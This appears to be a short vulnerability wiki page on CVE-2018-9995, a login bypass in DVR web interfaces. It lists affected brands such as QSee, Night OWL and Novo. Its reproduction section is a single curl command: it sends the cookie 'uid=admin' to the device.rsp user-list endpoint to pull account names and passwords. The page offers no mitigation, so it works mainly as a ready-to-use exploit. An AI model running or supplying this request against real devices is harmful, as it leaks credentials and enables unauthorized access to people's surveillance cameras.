 # DVR Login Bypass Vulnerability CVE-2018-9995

## Vulnerability Description

DVR, full name is Digital Video Recorder, that is, digital video recorder. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Novo</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">CeNova</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">QSee</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Pulnix</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">XVR 5 in 1 (title: "XVR Login")</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Securus, - Security. Never Compromise !! -</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Night OWL</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">DVR Login</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">HVR Login</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">MDVR Login</span>

## Vulnerability reappears

Use the curl command to obtain the account password

```shell
curl "https://xxx.xxx.xxx.xxx/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/dvr-1.png)